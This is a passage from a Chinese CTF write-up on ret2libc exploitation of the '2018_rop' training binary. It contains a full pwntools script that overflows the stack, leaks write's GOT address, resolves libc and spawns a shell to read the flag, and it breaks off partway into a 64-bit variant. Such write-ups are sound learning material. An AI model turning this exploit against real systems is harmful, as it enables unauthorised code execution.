    ![image-20240601105706072](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011057120.png)

   ![image-20240601104919755](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011049807.png)

3. 这里可以利用vulnerable_function函数进行栈溢出，利用write函数泄漏write函数的地址，从而拿到libc，使用write函数泄漏write函数地址时（puts函数同理），即使程序在前面 **没有调用过write函数** ，也可以 **直接利用栈溢出** 泄漏，因为在栈溢出时，程序会先解析write函数的地址将其填入got表项中：

   ``````python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='i386', log_level='debug')
   
   p=remote("node5.buuoj.cn",28334)
   elf=ELF('./2018_rop')
   got = elf.got['write']
   plt = elf.plt['write']
   print(hex(got),hex(plt))
   main_addr = 0x080484C6
   
   #这里程序会跳转到write函数的plt表，由于先前没有调用过write函数，所以此时write函数的got表还未填充地址，要调用write函数，程序会先解析write函数的地址（此时wrie函数的got表会更新），也就能泄漏write函数的地址了。
   payload = b'a'*(0x88+4)+p32(plt)+p32(main_addr)+p32(1)+p32(got)+p32(4)
   p.sendline(payload)
   addr = u32(p.recv())
   print(hex((addr)))
   
   libc = LibcSearcher('write',addr)
   liba_base = addr - libc.dump('write')
   sys_addr = liba_base + libc.dump('system')
   sh_addr  = liba_base + libc.dump('str_bin_sh')
   print(hex(liba_base),hex(sys_addr),hex(sh_addr))
   
   
   payload = b'a'*(0x88+4)+p32(sys_addr)+p32(0)+p32(sh_addr)
   p.sendline(payload)
   
   p.sendline(b'cat flag')
   p.interactive()
   
   ``````

   ![image-20240601110334585](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011103660.png)

4. write函数(64位)

   1. 明显可见，是ret2libc，先使用write函数得到libc基地址，在栈溢出。

   ![image-20240629104326165](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406291043250.png)

   2. 但是程序是64位，所以需要给rdi，rsi，rdx传参。rdi和rsi可以直接使用ROPgadget查得到，但是rdx只能使用ret2csu得到，但是不用给rdx传参，在read函数输入完成后rdx的参数任然为0x200，对于write来说完全足够，下面使用gdb调试来看看。
